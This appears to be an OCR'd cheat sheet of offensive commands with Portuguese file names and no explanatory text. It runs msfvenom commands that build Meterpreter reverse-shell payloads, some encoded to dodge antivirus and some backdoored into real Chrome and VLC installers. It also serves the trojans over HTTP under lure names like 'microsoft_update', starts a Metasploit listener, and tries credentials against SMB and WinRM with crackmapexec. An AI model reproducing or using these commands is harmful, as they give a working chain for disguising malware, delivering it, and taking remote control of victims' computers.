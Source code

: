 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

sudo apt update
sudo apt install apache2 php libapache2-mod-php -y
sudo systemctl restart apache2

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.137
set LPORT 4444

crackmapexec winrm 192.168.1.84 -u rsilva -p asd123$$$
crackmapexec smb 192.168.1.84 -u rsilva -p asd123$$$

run




